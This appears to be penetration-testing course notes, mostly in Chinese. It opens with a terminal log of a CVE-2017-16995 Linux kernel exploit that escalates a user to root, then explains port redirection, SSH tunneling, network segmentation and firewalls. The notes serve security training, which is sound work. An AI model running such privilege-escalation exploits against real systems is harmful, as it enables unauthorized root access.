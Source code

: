 ```
joe@ubuntu-privesc:~$ ./cve-2017-16995
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007bd1f100
[*] Leaking sock struct from ffff880079bd9c00
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880075c11e40
[*] UID from cred structure: 1001, matches the current: 1001
[*] hammering cred structure at ffff880075c11e40
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),1001(joe)
#
```
> 成功執行

# Port Redirection and SSH Tunneling
## Why Port Redirection and Tunneling?
了解常見網頁佈局之間的區別、考慮常見網路安全設備的影響、了解何時使用連接埠重新導向和 Tunnel 技術
>[!Note]
>**[Flat Network](https://en.wikipedia.org/wiki/Flat_network)**: 所有設備之間可以自由溝通，沒有存取限制，這種架構很容易讓攻擊者入侵一台設備後橫向擴散到整個網路，因此安全性很低。\
**[Segmented Network](https://en.wikipedia.org/wiki/Network_segmentation)**: 將網路切分成多個子網（Subnet），每個子網內的設備有特定用途，只有必要時才允許跨子網存取，這樣能有效阻止攻擊者輕易擴散。

在 segmentation process，大多數 network administrators 會控制 traffic into, out from, and across their networks.

>[!Note]
>[防火牆（Firewall）](https://en.wikipedia.org/wiki/Firewall_(computing)):\
軟體層面：Linux 的 iptables、Windows 的 Defender Firewall。
硬體層面：獨立的防火牆設備或內建防火牆功能的網路裝置。
作用：依照 IP 和端口規則過濾流量，限制內外網的資料流通。進階還有 深度封包檢測（[Deep Packet Inspection](https://en.wikipedia.org/wiki/Deep_packet_inspection), DPI），能根據封包內容過濾流量。


[Port redirection](https://en.wikipedia.org/wiki/Port_forwarding) 與 [tunneling](https://en.wikipedia.org/wiki/Tunneling_protocol) 都是可以用來穿越這些 boundaries 的策略
>[!Note]
>**Port Redirection**： 透過將資料從一個端口轉發到另一個端口，來改變流量的傳輸方式，使其能夠穿透防火牆或其他網路限制。\
**Tunneling**: 將一種協議的流量封裝在另一種協議內，例如 SSH Tunneling，可以把 HTTP 流量包裹在 SSH 連線內，使防火牆只看到 SSH 流量，而無法攔截 HTTP。\
Add'l info: [Network topology](https://en.wikipedia.org/wiki/Network_topology)
